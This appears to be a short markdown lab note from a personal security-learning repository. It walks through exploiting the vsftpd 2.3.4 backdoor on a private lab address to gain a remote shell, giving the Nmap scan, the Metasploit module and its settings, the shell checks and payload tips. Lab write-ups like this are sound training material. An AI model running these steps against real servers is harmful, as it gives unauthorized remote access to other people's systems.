 [🏠 Home](../README.md) • [🧪 Labs](../labs/README.md) • [🗒️ Notes](README.md)

# 🐚 FTP Exploit – vsftpd 2.3.4

## 🎯 Objective
Exploit a known backdoor vulnerability in vsftpd 2.3.4 to gain a remote shell.

## 🔧 Tools Used
- Metasploit Framework
- Nmap (optional pre-scan)

## 🪜 Steps
1. Scan with Nmap:
    ```
    nmap -sV -p 21 172.21.175.100
    ```

2. Launch Metasploit:
    ```
    msfconsole
    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 172.21.175.100
    run
    ```

3. Verify shell:
    ```
    whoami
    uname -a
    ```

## 🧠 Notes
- Sometimes requires restarting the target or switching payloads.
- May need to set `PAYLOAD cmd/unix/interact`.

---

